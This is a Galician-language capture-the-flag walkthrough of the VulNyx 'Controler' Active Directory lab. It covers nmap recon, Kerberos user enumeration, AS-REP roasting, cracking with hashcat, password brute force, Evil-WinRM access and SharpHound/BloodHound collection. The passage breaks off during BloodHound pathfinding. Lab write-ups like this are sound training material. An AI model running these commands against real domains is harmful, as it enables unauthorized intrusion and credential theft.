Doc vulnyx controler
A máquina Controler é moi interesante porque...
- Active Directory Domain Controller (Windows Server 2019)
- Enumeración de usuarios mediante Kerberos sen credenciais
- AS-REP Roasting attack contra usuario vulnerable
- Cracking de hash Kerberos con Hashcat
- Ataque de forza bruta para obter segunda conta
- Enumeración de Active Directory con BloodHound/SharpHound
- Privilexio AllExtendedRights para DCSync
- Extracción de hashes NTLM con secretsdump
- Pass-the-Hash para acceso como Administrator
Diagrama de ataque

Fase 1 – Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_Controler -R # TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sS -Pn -T4 -p- -vvv --min-rate 5000 IP_VulNyx_Controler
Resultado do escaneo de portos:
PORT STATE SERVICE
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5985/tcp open wsman
49664-49671/tcp open msrpc
Portos identificados:
- Porto 53: DNS
- Porto 88: Kerberos
- Porto 135: MSRPC
- Porto 139/445: SMB/NetBIOS
- Porto 389/636: LDAP/LDAPS
- Porto 464: Kerberos Password Change
- Porto 593: RPC over HTTP
- Porto 3268/3269: Global Catalog LDAP
- Porto 5985: WinRM
Fase 2 – Análise
Escaneo de servizos e versións
# Escaneo detallado dos portos principais
sudo nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985 \
-sCV IP_VulNyx_Controler -oN targeted -oX targeted.xml
Resultado do escaneo:
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-11-12 05:05:03Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: control.nyx0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: control.nyx0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
|_clock-skew: 7h59m57s
|_nbstat: NetBIOS name: CONTROLER, NetBIOS user: <unknown>
Service Info: Host: CONTROLER; OS: Windows; CPE: cpe:/o:microsoft:windows
Información do sistema:
- Hostname: CONTROLER
- Dominio: control.nyx
- Sistema operativo: Windows Server 2019 Build 17763
- SMB signing: Enabled and required (protección contra relay attacks)
Configuración do ficheiro hosts
# Engadir dominio ao /etc/hosts
echo "IP_VulNyx_Controler control.nyx controler.control.nyx" | sudo tee -a /etc/hosts
Verificación con NetExec
Saída:
SMB IP_VulNyx_Controler 445 CONTROLER [*] Windows 10 / Server 2019 Build 17763 x64 (name:CONTROLER) (domain:control.nyx) (signing:True) (SMBv1:False)
Tentativas de acceso anónimo
# Intentar acceso anónimo a SMB
smbclient -L //IP_VulNyx_Controler -N
# Intentar enumeración con smbmap
smbmap -H IP_VulNyx_Controler
# Intentar RPC con acceso nulo
rpcclient -U '' -N IP_VulNyx_Controler
rpcclient $> enumdomusers
Resultado:
smbclient: NT_STATUS_ACCESS_DENIED
smbmap: [!] Authentication error on IP_VulNyx_Controler
rpcclient: NT_STATUS_ACCESS_DENIED
Conclusión: Non hai acceso anónimo a SMB nin RPC. Necesitamos outro vector de ataque.
Enumeración de usuarios con Kerberos
Estratexia:
Kerberos permite verificar se un usuario existe sen necesidade de contrasinal, baseándose nas respostas de erro do KDC (Key Distribution Center).
Tipos de respostas:
KDC_ERR_PREAUTH_FAILED: Usuario existe pero contrasinal incorrectaKDC_ERR_CLIENT_REVOKED: Usuario existe pero está deshabilitadoKDC_ERR_C_PRINCIPAL_UNKNOWN: Usuario non existe
Preparar wordlists:
# Descargar wordlists de usuarios comúns
wget https://raw.githubusercontent.com/attackdebris/kerberos_enum_userlists/master/A-Z.Surnames.txt
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/xato-net-10-million-usernames.txt
Enumeración con NetExec:
# Enumerar con wordlist pequena primeiro
netexec ldap IP_VulNyx_Controler \
-u xato-net-10-million-usernames.txt \
-p '' \
-k \
-t 200 | grep -vi unknown
Resultado:
LDAP IP_VulNyx_Controler 389 CONTROLER [*] Windows 10 / Server 2019 Build 17763 (name:CONTROLER) (domain:control.nyx)
LDAP IP_VulNyx_Controler 389 CONTROLER [-] control.nyx\guest: KDC_ERR_CLIENT_REVOKED
LDAP IP_VulNyx_Controler 389 CONTROLER [-] control.nyx\administrator: KDC_ERR_PREAUTH_FAILED
Usuarios básicos identificados:
administrator(existe, activo)guest(existe, deshabilitado)
Busca de usuarios vulnerables a AS-REP Roasting
Información sobre AS-REP Roasting:
AS-REP Roasting é un ataque contra contas que teñen deshabilitada a pre-autenticación Kerberos (atributo DONT_REQ_PREAUTH).
Como funciona:
- Por defecto, Kerberos require que o usuario demostre que coñece a contrasinal antes de recibir un TGT
- Se unha conta ten deshabilitada a pre-autenticación
- Calquera pode solicitar un TGT para ese usuario
- O TGT está cifrado coa contrasinal do usuario (hash)
- Podemos crackear este TGT offline sen límite de intentos
Buscar usuarios vulnerables:
# Enumerar con wordlist de apelidos
netexec ldap IP_VulNyx_Controler \
-u A-Z.Surnames.txt \
-p '' \
-k \
-t 200 | grep -vi unknown
Resultado:
LDAP IP_VulNyx_Controler 389 CONTROLER [*] Windows 10 / Server 2019 Build 17763 (name:CONTROLER) (domain:control.nyx)
LDAP IP_VulNyx_Controler 389 CONTROLER [+] control.nyx\[usuario.apelido] account vulnerable to asreproast attack
Usuario vulnerable identificado: [usuario.apelido]
Nota: NetExec detecta automaticamente usuarios vulnerables a AS-REP Roasting e os marca claramente.
Obtención de hash AS-REP
# Obter hash AS-REP do usuario [usuario.apelido]
netexec ldap IP_VulNyx_Controler \
-u [usuario.apelido] \
-p '' \
--asreproast asrep_hash.txt
Resultado:
LDAP IP_VulNyx_Controler 389 CONTROLER [*] Windows 10 / Server 2019 Build 17763 (name:CONTROLER) (domain:control.nyx)
LDAP IP_VulNyx_Controler 389 CONTROLER [*] Dumping hash for [usuario.apelido]
Contido de asrep_hash.txt:
Formato do hash:
$krb5asrep$23$: Tipo de hash (Kerberos 5 AS-REP etype 23)[usuario.apelido]@CONTROL.NYX: Usuario[hash_data]: Datos cifrados co contrasinal do usuario
Fase 3 – Explotación
Cracking do hash AS-REP con Hashcat
# Identificar o modo de Hashcat: 18200 = Kerberos 5 AS-REP etype 23
hashcat --example | grep -B2 -i kerberos
hashcat -m 18200 asrep_hash.txt /usr/share/wordlists/rockyou.txt
# Ver resultado
hashcat -m 18200 asrep_hash.txt --show
Resultado:
Credenciais de [usuario.apelido] obtidas:
- Usuario:
[usuario.apelido] - Contrasinal:
[contrasinal1]
Verificación de credenciais
# Verificar credenciais e enumerar shares
netexec smb IP_VulNyx_Controler -u '[usuario.apelido]' -p '[contrasinal1]' --shares
Resultado:
SMB IP_VulNyx_Controler 445 CONTROLER [+] control.nyx\[usuario.apelido]:[contrasinal1]
SMB IP_VulNyx_Controler 445 CONTROLER [*] Enumerated shares
SMB IP_VulNyx_Controler 445 CONTROLER Share Permissions Remark
SMB IP_VulNyx_Controler 445 CONTROLER ----- ----------- ------
SMB IP_VulNyx_Controler 445 CONTROLER ADMIN$ Remote Admin
SMB IP_VulNyx_Controler 445 CONTROLER C$ Default share
SMB IP_VulNyx_Controler 445 CONTROLER IPC$ READ Remote IPC
SMB IP_VulNyx_Controler 445 CONTROLER NETLOGON READ Logon server share
SMB IP_VulNyx_Controler 445 CONTROLER SYSVOL READ Logon server share
Credenciais válidas confirmadas
Enumeración de usuarios do dominio
# Listar todos os usuarios do dominio
netexec smb IP_VulNyx_Controler -u '[usuario.apelido]' -p '[contrasinal1]' --users
Resultado:
SMB IP_VulNyx_Controler 445 CONTROLER [+] control.nyx\[usuario.apelido]:[contrasinal1]
SMB IP_VulNyx_Controler 445 CONTROLER -Username- -Last PW Set- -BadPW- -Description-
SMB IP_VulNyx_Controler 445 CONTROLER Administrator 2024-10-22 20:59:42 0 (Account Enabled)
SMB IP_VulNyx_Controler 445 CONTROLER Guest <never> 0 (Account Disabled)
SMB IP_VulNyx_Controler 445 CONTROLER krbtgt 2024-10-22 18:21:34 0 Key Distribution Center Service Account
SMB IP_VulNyx_Controler 445 CONTROLER [usuario2.apelido2] 2024-10-22 20:50:12 0 (Account Enabled)
SMB IP_VulNyx_Controler 445 CONTROLER [usuario.apelido] 2024-10-22 20:24:04 0 (Account Enabled)
SMB IP_VulNyx_Controler 445 CONTROLER [usuario3.apelido3] 2024-10-22 20:26:33 0 (Account Disabled)
SMB IP_VulNyx_Controler 445 CONTROLER [usuario4.apelido4] 2024-10-22 20:27:50 0 (Account Disabled)
SMB IP_VulNyx_Controler 445 CONTROLER [usuario5.apelido5] 2024-10-22 20:28:51 0 (Account Disabled)
Usuarios activos identificados:
Administrator[usuario2.apelido2]← Novo obxectivo para escalada[usuario.apelido](conta con contrasinal atopado)
Ataque de forza bruta sobre [usuario2.apelido2]
# Crear lista reducida de rockyou para eficiencia
head -5000 /usr/share/wordlists/rockyou.txt > 5000-rockyou.txt
# Forza bruta sobre [usuario2.apelido2]
netexec smb IP_VulNyx_Controler \
-u '[usuario2.apelido2]' \
-p 5000-rockyou.txt \
-t 200 \
--ignore-pw-decoding | grep -vi failure
Resultado:
Credenciais de [usuario2.apelido2] obtidas:
- Usuario:
[usuario2.apelido2] - Contrasinal:
[contrasinal2]
Verificar acceso de [usuario2.apelido2]
# Verificar se [usuario2.apelido2] ten acceso administrativo local
netexec smb IP_VulNyx_Controler -u '[usuario2.apelido2]' -p '[contrasinal2]'
# Verificar acceso WinRM
netexec winrm IP_VulNyx_Controler -u '[usuario2.apelido2]' -p '[contrasinal2]'
Resultado:
SMB IP_VulNyx_Controler 445 CONTROLER [+] control.nyx\[usuario2.apelido2]:[contrasinal2]
WINRM IP_VulNyx_Controler 5985 CONTROLER [+] control.nyx\[usuario2.apelido2]:[contrasinal2] (Pwn3d!)
Nota "Pwn3d!": Indica que temos acceso WinRM (Remote Management)
Acceso con Evil-WinRM
# Conectar con Evil-WinRM
evil-winrm -i IP_VulNyx_Controler -u '[usuario2.apelido2]' -p '[contrasinal2]'
Saída:
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Documents>
Obtención de flag de usuario
# Navegar ao Desktop
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Documents> cd ..\Desktop
# Ler flag de usuario
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Desktop> type user.txt
[FLAG_USER]
Flag de usuario conseguida
Fase 4 – Post-Explotación
Verificar privilexios
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Desktop> whoami
control\[usuario2.apelido2]
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Desktop> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
Non hai privilexios especiais para escalada directa (sen SeBackupPrivilege, SeImpersonatePrivilege, etc.)
Estratexia de escalada
Sen privilexios especiais en Windows, a estratexia é:
- Enumeración de AD con BloodHound/SharpHound para identificar rutas de escalada
- Abusar de permisos ACL se os temos
- DCSync se temos dereitos de replicación
Preparación de SharpHound
# Descargar SharpHound desde GitHub
cd ~/Downloads
wget https://github.com/SpecterOps/SharpHound/releases/download/v2.8.0/SharpHound_v2.8.0_windows_x86.zip
# Descomprimir
7z x SharpHound_v2.8.0_windows_x86.zip
Upload de SharpHound
# Desde Evil-WinRM, subir SharpHound.exe
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Documents> upload /home/kali/Downloads/SharpHound.exe
Info: Uploading /home/kali/Downloads/SharpHound.exe to C:\Users\[usuario2.apelido2]\Documents\SharpHound.exe
Data: 1753768 bytes of 1753768 bytes copied
Info: Upload successful!
Execución de SharpHound
# Executar SharpHound para recoller todos os datos de AD
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Documents> .\SharpHound.exe -c All
2025-11-12T10:33:09.1234567-00:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2025-11-12T10:33:09.2345678-00:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-11-12T10:33:09.3456789-00:00|INFORMATION|Initializing SharpHound at 10:33 AM on 11/12/2025
2025-11-12T10:33:09.4567890-00:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-11-12T10:33:09.5678901-00:00|INFORMATION|Beginning LDAP search for control.nyx
2025-11-12T10:33:09.6789012-00:00|INFORMATION|Producer has finished, closing LDAP channel
2025-11-12T10:33:09.7890123-00:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-11-12T10:33:40.1234567-00:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38MB RAM
2025-11-12T10:34:09.2345678-00:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2025-11-12T10:34:09.3456789-00:00|INFORMATION|Output channel closed, waiting for output task to complete
2025-11-12T10:34:09.4567890-00:00|INFORMATION|Status: 103 objects finished (+103 1.030)/s -- Using 43MB RAM
2025-11-12T10:34:09.5678901-00:00|INFORMATION|Enumeration finished in 00:01:00.0123456
2025-11-12T10:34:09.6789012-00:00|INFORMATION|Saving cache with stats: 59 ID to type mappings.
0 name to SID mappings.
1 machine sid mappings.
3 sid to domain mappings.
0 global catalog mappings.
2025-11-12T10:34:09.7890123-00:00|INFORMATION|SharpHound Enumeration Completed at 10:34 AM on 11/12/2025! Happy Graphing!
Ficheiro ZIP xerado: 20251112103309_BloodHound.zip
Descarga do ficheiro ZIP
# Descargar ficheiro ZIP con datos de BloodHound
*Evil-WinRM* PS C:\Users\j.levy\Documents> download 20251112103309_BloodHound.zip
Info: Downloading C:\Users\j.levy\Documents\20251112103309_BloodHound.zip to 20251112103309_BloodHound.zip
Info: Download successful!
Instalación e configuración de BloodHound
Instalar Neo4j e BloodHound:
# Actualizar sistema
sudo apt update
# Instalar Neo4j
sudo apt install -y neo4j
# Instalar BloodHound
sudo apt install -y bloodhound
Configurar Java 11 (necesario para Neo4j):
# Ver versións de Java dispoñibles
sudo update-alternatives --config java
# Seleccionar Java 11
# Selection: 1 (/usr/lib/jvm/java-11-openjdk-amd64/bin/java)
There are 2 choices for the alternative java (providing /usr/bin/java).
Selection Path Priority Status
------------------------------------------------------------
* 0 /usr/lib/jvm/java-21-openjdk-amd64/bin/java 2111 auto mode
1 /usr/lib/jvm/java-11-openjdk-amd64/bin/java 1111 manual mode
2 /usr/lib/jvm/java-21-openjdk-amd64/bin/java 2111 manual mode
Press <enter> to keep the current choice[*], or type selection number: 1
Iniciar Neo4j:
Deixar esta terminal aberta e abrir outra terminal
Primeira execución de BloodHound:
Proceso de configuración inicial:
It seems it's the first time you run bloodhound
Please run bloodhound-setup first
Do you want to run bloodhound-setup now? [Y/n] Y
[*] Starting PostgreSQL service
[*] Creating Database
[*] Starting neo4j
Neo4j is running at pid 5416
[i] You need to change the default password for neo4j
Default credentials are user:neo4j password:neo4j
[!] IMPORTANT: Once you have setup the new password, please update /etc/bhapi/bhapi.json with the new password before running bloodhound
opening http://localhost:7474/
Cambiar contrasinal de Neo4j:
- Ábrese navegador en
http://localhost:7474/ - Login con:
neo4j/neo4j

- Cambiar contrasinal (exemplo:
abc123.)

Actualizar configuración de BloodHound:
Modificar o campo neo4j.secret:
Reiniciar servizos:
# Parar procesos
sudo pkill -f bloodhound
sudo pkill -f neo4j
# Iniciar Neo4j en background
sudo neo4j console &
disown
# Iniciar BloodHound
bloodhound
Interface web de BloodHound:
Ábrese automaticamente en: http://127.0.0.1:8080/ui/login
- Login con:
admin/admin

- Cambiar contrasinal na primeira autenticación
- Requisitos: mínimo 8 caracteres, maiúsculas, minúsculas, números


Subir datos a BloodHound
Na interface web:
- Click en "Upload Data" (icona de nube arriba á dereita)
- Seleccionar ficheiro
20251112103309_BloodHound.zip

- Ou arrastralo directamente á interface

- Esperar a que se procesen os datos (1-2 minutos)
Análise con BloodHound
Buscar usuario [usuario2.apelido2]:
- Na barra de busca: escribir
user:[usuario2.apelido2]

- Seleccionar nodo [USUARIO2.APELIDO2]@CONTROL.NYX

- Botón dereito → Set as Starting Node

Buscar camiños a Domain Admin:
- Seleccionar "Pathfinding" no menú lateral
- En "Destination Node" escribir: `ADMINISTRATOR@CONTROL.NYX
